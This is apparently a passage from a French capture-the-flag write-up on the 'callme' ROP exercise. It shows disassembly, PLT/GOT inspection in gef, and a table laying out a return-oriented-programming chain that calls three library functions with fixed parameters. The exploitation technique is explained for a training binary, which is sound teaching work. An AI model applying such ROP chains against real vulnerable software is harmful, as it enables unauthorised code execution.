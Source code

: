 ```
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

Exemple de l'appel de callme_one :

``` sh
   0x000000000040091e <+44>:	mov    edx,0x6
   0x0000000000400923 <+49>:	mov    esi,0x5
   0x0000000000400928 <+54>:	mov    edi,0x4
   0x000000000040092d <+59>:	call   0x400720 <callme_one@plt>
```

avec :

``` sh
gef➤  x/4i 0x00400720
   0x400720 <callme_one@plt>:	jmp    QWORD PTR [rip+0x20091a]        # 0x601040 <callme_one@got.plt>
   0x400726 <callme_one@plt+6>:	push   0x5
   0x40072b <callme_one@plt+11>:	jmp    0x4006c0
   0x400730 <setvbuf@plt>:	jmp    QWORD PTR [rip+0x200912]        # 0x601048 <setvbuf@got.plt>
```

C'est l'adresse de la PLT qu'il faut utiliser.
La GOT ne contient pas une instruction mais l'adresse de la fonction dans la librairie libcallme.so.

Dans notre script python, avec pwntool elf.plt['call_me_one'] nous donne l'adresse 0x400720.

## Construction de la chaine de ROP

| ROP entry | comment |
| ----------- | ------- |
| pop3 gadget       | pop rdi ; pop rsi ; pop rdx ; ret |
| 0xdeadbeefdeadbeef | param1 |
| 0xcafebabecafebabe | param2 |
| 0xd00df00dd00df00d | param3 |
| callme_one@plt |  |
| pop3        | pop rdi ; pop rsi ; pop rdx ; ret |
| 0xdeadbeefdeadbeef | param1 |
| 0xcafebabecafebabe | param2 |
| 0xd00df00dd00df00d | param3 |
| callme_two@plt |  |
| pop3        | pop rdi ; pop rsi ; pop rdx ; ret |
| 0xdeadbeefdeadbeef | param1 |
| 0xcafebabecafebabe | param2 |
| 0xd00df00dd00df00d | param3 |
| callme_three@plt |  |
